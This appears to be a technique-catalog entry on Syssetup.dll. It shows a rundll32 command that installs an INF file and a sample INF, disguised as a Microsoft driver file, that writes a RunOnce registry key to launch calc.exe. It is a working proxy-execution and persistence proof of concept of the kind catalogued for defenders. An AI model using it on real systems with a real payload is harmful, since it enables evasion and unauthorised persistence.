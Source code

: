 ## Syssetup.dll

* Functions: Execute

```
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 c:\temp\calc.INF
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken
* Matt harr0ey - @harr0ey  

Code sample:
* 

Resources:
* https://twitter.com/pabraeken/status/994392481927258113
* https://twitter.com/harr0ey/status/975350238184697857

Full path:
```
c:\windows\system32\Syssetup.dll
c:\windows\sysWOW64\Syssetup.dll
```

Notes:
calc.inf
```
; DRIVER.INF
; Copyright (c) Microsoft Corporation.  All rights reserved.
 
[Version]
Signature = "$CHICAGO$"
Class=61883
ClassGuid={7EBEFBC0-3200-11d2-B4C2-00A0C9697D17}
Provider=%Msft%
DriverVer=06/21/2006,6.1.7600.16385
 
[DestinationDirs]
DefaultDestDir = 1
 
[DefaultInstall]
AddReg = CalcStart

[CalcStart]
HKLM,Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce,Install,,cmd.exe /c """calc.exe"""
```



Detection:

 
